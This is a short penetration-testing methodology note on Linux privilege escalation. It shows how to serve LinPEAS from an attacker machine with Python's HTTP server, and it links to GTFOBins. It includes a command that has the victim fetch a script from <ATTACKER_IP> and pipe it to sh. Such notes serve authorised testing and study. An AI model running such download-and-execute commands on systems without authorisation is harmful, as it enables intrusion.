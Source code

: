 ```yaml
---
description: Tools and methodology for Linux PrivEsc
---
```


# Linux

## 🔥 LinPEAS - Linux Privilege Escalation Awesome Script

When escalating privileges, one of the **fastest** ways to transfer and execute an enumeration script like `linpeas.sh` is using Python’s built-in HTTP server combined with `curl`.

***

### &#x20;**📌 Attacker: Start a Simple Web Server**

Run the following command on your **attacking machine** (Kali, Parrot, etc.) to serve files from the current directory:

```bash
python3 -m http.server 80
```

### &#x20;**📌 Victim: Download & Execute LinPEAS**

On the **target machine**, download and execute LinPEAS in one step:

```bash
curl <ATTACKER_IP>/linpeas.sh | sh
```

## 🛑 GTFOBins

[https://gtfobins.github.io/](https://gtfobins.github.io/)
